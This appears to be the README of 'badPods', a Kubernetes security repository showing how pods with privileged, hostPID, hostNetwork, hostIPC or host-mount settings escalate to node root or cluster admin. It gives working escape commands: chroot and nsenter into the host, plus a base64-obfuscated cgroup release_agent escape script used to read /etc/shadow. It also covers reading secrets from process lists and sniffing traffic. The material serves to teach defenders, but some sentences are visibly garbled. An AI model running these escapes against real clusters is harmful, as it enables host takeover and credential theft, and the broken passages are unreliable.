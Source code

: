 # badPods

A collection of yamls that will create pods with different elevated privileges.    

## Background
Occasionally, pods need access to privileged resources on the host, so the Kubernetes pod spec allows for it. However, this should be done with extreme caution. As an administrator, you have ways to prevent the creation of pods with these security sensitive pod specifications, but it is not always clear what the real-world security implications of allowing certain attributes is.

## What's the worst that can happen?

This collection aims to help you quickly understand the impact of allowing specific security sensitive pod specifications, and some common combinations. 

## Prerequisites

1. Access to a cluster 
1. Permission to create pods and exec into them in at least one namespace
1. A pod security policy (or other pod admission controller's logic) that allows pods to be created with one or more security sensitive attributes, or no pod security policy / pod admission controller at all
1. No appArmor profile applied 

## Summary

Allowed Specification | What's the worst that can happen?
-- | --
\* | Gain cluster admin privileges 
hostPID + privileged |  Gain cluster admin privileges 
Unrestricted hostmount (/) | Gain cluster admin privileges 
privileged=true | Gain cluster admin privileges 
hostmount=true <br>readonlyfilesystem=true| Likely escalate to cluster admin 
hostpid | Kill and process on the node (DOS) <br>Access any secrets visable via ps -aux <br>Access sensitive applications and services 
hostnetwork | Sniff unencrypted traffic on any interface <br> Communicate with services that only listen on loopback, etc. <br> Potential path to gain cluster admin privileges  
hostipc | Not much on its own unless other pods are using hostIPC 

# Usage
 Each pod spec in the yamls directory targets a specific attribute or a combination of attributes that expose your cluster to risk. 



## Easy mode pod - You can create a pod with to all the things
If there are no pod admission controls applied, you can create a pod that has complete access to the host node, including access to the host's filesystem, network, process space.  

Credit: https://raesene.github.io/blog/2019/04/01/The-most-pointless-kubernetes-command-ever/

```bash
# Create pod
kubectl [-n namespace] apply -f pod-chroot-node.yaml 
# Exec into pod 
kubectl -n [namespace] exec -it bf-hostpid -- chroot /host
# Do stuff in pod
# You now have full root access to the pod

```

## Nsenter pod - You can create a pod with privileged: true + hostPID

If you have `privileged=true` and `hostPID` available to you, you can use the `nsenter` command in the pod to enter PID=1 on the host, which allows you to become the host. 

Credit: https://twitter.com/mauilion/status/1129468485480751104
Credit: https://github.com/kvaps/kubectl-node-shell

```bash
# Create pod
kubectl [-n namespace] apply -f pod-priv-and-hostpid.yaml 
# Exec into pod 
kubectl -n [namespace] exec -it bf-nsenter -- bash
# Use nsenter to gain full root access on the node
nsenter --target 1 --mount --uts --ipc --net --pid -- bash

```


## Privonly pod - You can create a pod with only privileged: true

If you only have `privileged=true`, you can still get RCE on the host, but the path is more tedious. You have to  . 

Credit: https://twitter.com/_fel1x/status/1151487051986087936
Credit: https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/ 

```bash
# Create pod
kubectl [-n namespace] apply -f pod-priv-only.yaml 
# Exec into pod 
kubectl -n [namespace] exec -it bf-privpod -- bash
#create undock script that will automate the container escape POC
echo ZD1gZGlybmFtZSAkKGxzIC14IC9zKi9mcy9jKi8qL3IqIHxoZWFkIC1uMSlgCm1rZGlyIC1wICRkL3c7ZWNobyAxID4kZC93L25vdGlmeV9vbl9yZWxlYXNlCnQ9YHNlZCAtbiAncy8uKlxwZXJkaXI9XChbXixdKlwpLiovXDEvcCcgL2V0Yy9tdGFiYAp0b3VjaCAvbzsgZWNobyAkdC9jID4kZC9yZWxlYXNlX2FnZW50O2VjaG8gIiMhL2Jpbi9zaAokMSA+JHQvbyIgPi9jO2NobW9kICt4IC9jO3NoIC1jICJlY2hvIDAgPiRkL3cvY2dyb3VwLnByb2NzIjtzbGVlcCAxO2NhdCAvbwo= | base64 -d > undock.sh 
# Then use the script to run whatever commands you want on the host: 
sh undock.sh "cat /etc/shadow"
```

## hostPIDonly pod - You can create a pod with only hostPID

If you only have `hostPID=true`, you most likely wont't get RCE on the host, but you might find sensitive application secrets that belong to pods in other namespaces. This can be use to  that are oustill get RCE on the host, but the path is more tedious. You have to  . 

```bash
# Create pod
kubectl [-n namespace] apply -f pod-hostpid-only.yaml 
# Exec into pod 
kubectl -n [namespace] exec -it bf-hostpid -- bash
# View all processes running on the host and look for passwords, tokens, keys, etc.
ps -aux
#You can also kill any process, but don't do that in production :)

```

## hostNetwork pod - You can create a pod with only hostNetwork

If you only have `hostNetwork=true`, you can't get RCE on the host directly, but if your cross your fingers you might still find a path to cluster admin. 
The important things here are: 
* You can sniff traffic on any of the host's network interfaces, and maybe find some kubernetes tokens or application specific passwords, keys, etc. to other services in the cluster.  
* You can communicate with network services on the host that are only listening on localhost/loopback. Services you would not be able to touch without `hostNetowrk=true`


```bash
# Create pod
kubectl [-n namespace] apply -f pod-hostnetwork-only.yaml 
# Exec into pod 
kubectl -n [namespace] exec -it bf-hostnetwork -- bash
# Install tcpdump and sniff traffic 
apt update && apt install tcpdump 
# Or investigate local services
curl https://localhost:1234/metrics
```


## hostIPC pod - You can create a pod with only hostIPC

If you only have `hostIPC=true`, you most likely can't do much. What you should do is use the ipcs command inside your hostIPC container to see if there are any ipc resources (shared memory segments, message queues, or semephores). If you find one, you will likely need to create a program that can read them. 
Reference: https://opensource.com/article/20/1/inter-process-communication-linux

```bash
# Create pod
kubectl [-n namespace] apply -f pod-hostipc-only.yaml 
# Exec into pod 
kubectl -n [namespace] exec -it bf-hostipc -- bash
# Look for any use of inter= process communication on the host 
ipcs -a
```



# Remove pods
kubectl -n [namespace] delete -f pod-file-name.yaml